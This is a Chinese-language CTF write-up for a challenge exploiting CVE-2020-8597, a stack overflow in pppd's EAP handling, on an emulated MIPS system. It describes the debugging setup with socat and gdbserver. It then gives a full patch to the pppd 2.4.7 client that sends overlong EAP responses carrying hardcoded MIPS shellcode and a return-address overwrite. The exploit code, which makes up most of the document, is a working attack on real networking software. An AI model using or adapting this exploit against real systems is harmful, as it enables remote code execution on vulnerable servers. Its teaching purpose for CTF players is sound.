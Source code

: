 ## pppd
[中文](./README_zh.md) [English](./README.md)
这道题是要求写CVE-2020-8597的1 day exp
这个cve本身其实是非常简单的，就单纯一个栈溢出
但是难的是与pppd进行通信和在mips环境下面进行调试

在比赛的时候大部分队伍都没有找到与pppd通信的办法，因此我就直接放出提示，使用socat与pppd进行通信

接下来介绍的是如何调试的方法

首先题目默认关闭了network

在/etc/init.d/S40network, 将注释全部删掉，然后修改start.sh脚本，将-net none删除，加上-redir tcp:9999::9999 -redir tcp:4242::4242，这样就配置好network了

然后修改/etc/inittab
将
```
ttyS0::sysinit:/pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
修改为
```
ttyS0::sysinit:/bin/sh
```

然后到github下载一个[gdbserver](https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), 重新打包一个cpio，启动

进入系统后默认得到一个shell，系统里面自带一个socat

执行
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
之后执行下面的命令获取pppd的pid
```
ps |grep pppd
```
使用gdbserver attach上pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
然后在外面使用gdb-multiarch去连接gdbserver

之后下载一个pppd的源码，编译
执行
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999 &
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
这样就成功进行调试了

之后根据https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124的操作patch源码，写exp即可

exp patch如下
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```

